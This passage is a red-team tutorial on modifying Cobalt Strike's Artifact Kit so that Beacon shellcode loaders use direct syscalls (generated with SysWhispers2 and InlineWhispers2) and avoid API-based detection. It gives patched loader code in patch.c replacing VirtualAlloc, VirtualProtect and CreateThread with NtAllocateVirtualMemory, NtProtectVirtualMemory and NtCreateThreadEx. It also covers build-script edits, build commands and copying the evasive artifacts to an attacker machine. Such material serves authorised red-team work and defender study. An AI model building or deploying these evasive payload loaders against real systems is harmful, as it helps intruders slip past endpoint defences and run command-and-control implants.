 The use of syscalls can be integrated into Cobalt Strike's Artifact Kit, which is useful in cases where Beacon payloads are being detected through their use of APIs.  The payloads themselves act as simple shellcode loaders, which bootstrap and run a reflective package.

For instance - the default EXE payload uses VirtualAlloc, VirtualProtect and CreateThread to execute Beacon shellcode inside itself.  This is the spawn function, located in `cobaltstrike/arsenal-kit/kits/artifact/src-common/patch.c`.

```cpp
 89 #elif USE_VirtualAlloc
 90    ptr = VirtualAlloc(0, length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

...

113 #if defined(USE_VirtualAlloc) || defined(USE_MapViewOfFile)
114    /* fix memory protection */
115    DWORD old;
116    VirtualProtect(ptr, length, PAGE_EXECUTE_READ, &old);
117 #endif
118
119    /* spawn a thread with our data */
120    CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)&run, ptr, 0, NULL);
```

The default output from SysWhispers2 doesn't play nice with Beacon artifacts or BOFs.  So we need to use another tool, [InlineWhispers2](https://github.com/Sh0ckFR/InlineWhispers2) to convert the output slightly.

```shell
ubuntu@teamserver ~/I/SysWhispers2 (main)> pwd
/home/ubuntu/InlineWhispers2/SysWhispers2

ubuntu@teamserver ~/I/SysWhispers2 (main)> python3 syswhispers.py -p all -o syscalls_all
ubuntu@teamserver ~/I/SysWhispers2 (main)> cd ..
ubuntu@teamserver ~/InlineWhispers2 (main)> python3 InlineWhispers2.py

Sh0ckFR - https://twitter.com/Sh0ckFR
Import syscalls.c syscalls.h, syscalls-asm.h in your project and include syscalls.c to start to use syscalls
```

Copy `syscalls.c`, `syscalls.h` and `syscalls-asm.h` to `src-common` inside the artifact kit directory structure.

```shell
ubuntu@teamserver ~/InlineWhispers2 (main)> ls output/
syscalls-asm.h  syscalls.c  syscalls.h

ubuntu@teamserver ~/InlineWhispers2 (main)> cp output/* ~/cobaltstrike/arsenal-kit/kits/artifact/src-common/
``` 

Open `patch.c` in an editor and add `#include "syscalls.c"` above the `spawn` function.

```cpp
 66 #include "syscalls.c"
 67 void spawn(void * buffer, int length, char * key) {
```  

Then it's just a case of replacing the Win32 API calls with their Nt equivalent.
```cpp
 90 #elif USE_VirtualAlloc
 91    HANDLE hProcess;
 92
 93    /* get handle to own process */
 94    OBJECT_ATTRIBUTES oa;
 95    InitializeObjectAttributes(&oa, 0, 0, 0, 0);
 96
 97    CLIENT_ID cid = { (HANDLE)GetCurrentProcessId(), NULL};
 98    NtOpenProcess(&hProcess, PROCESS_ALL_ACCESS, &oa, &cid);
 99
100    /* allocate memory */
101    SIZE_T regionSize = (SIZE_T)length;
102    NtAllocateVirtualMemory(hProcess, &ptr, 0, &regionSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  

125 #if defined(USE_VirtualAlloc) || defined(USE_MapViewOfFile)
126    /* fix memory protection */
127    DWORD old;
128    NtProtectVirtualMemory(hProcess, &ptr, &regionSize, PAGE_EXECUTE_READ, &old);

  

132    /* spawn a thread with our data */
133    HANDLE hThread;
134    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, hProcess, &run, ptr, FALSE, 0, 0, 0, NULL);
```

Before being able to rebuild the artifacts, we have to modify `build.sh`.

1.  Modify the two `c_options` variables in the `build_artifacts64` function to include `-masm=intel`.  At the time of writing, these are on lines 79 and 102.
2.  Since in this example, we've only generated x64 syscalls, we need to disable the x86 builds by commenting out the call to `build_artifacts` (line 282).  If you require x86 builds, you can use the `_M_X64` directive inside the artifact source code to reference different syscalls files.

  

Run the build script, ensuring to specify the VirtualAlloc allocation type.

```shell
ubuntu@teamserver ~/c/a/k/artifact> ./build.sh pipe VirtualAlloc 271360 5 true false /tmp/artifact
```  

Copy the new artifacts to the Attacker Windows VM and load the `artifact.cna`.  

```powershell
C:\Users\Administrator>pscp -r -i Desktop\ssh.ppk ubuntu@10.10.0.69:/tmp/artifact/pipe C:\Tools\cobaltstrike
artifact64svc.exe         | 21 kB |  21.0 kB/s | ETA: 00:00:00 | 100%
artifact.cna              | 11 kB |  11.4 kB/s | ETA: 00:00:00 | 100%
artifact64.x64.dll        | 53 kB |  53.5 kB/s | ETA: 00:00:00 | 100%
artifact64big.x64.dll     | 317 kB | 317.5 kB/s | ETA: 00:00:00 | 100%
artifact64.exe            | 54 kB |  54.5 kB/s | ETA: 00:00:00 | 100%
artifact64big.exe         | 318 kB | 318.5 kB/s | ETA: 00:00:00 | 100%
artifact64svcbig.exe      | 285 kB | 285.0 kB/s | ETA: 00:00:00 | 100%
```

Then go to **Attacks > Packages > Windows Executable (S)** and generate a new x64 Windows EXE.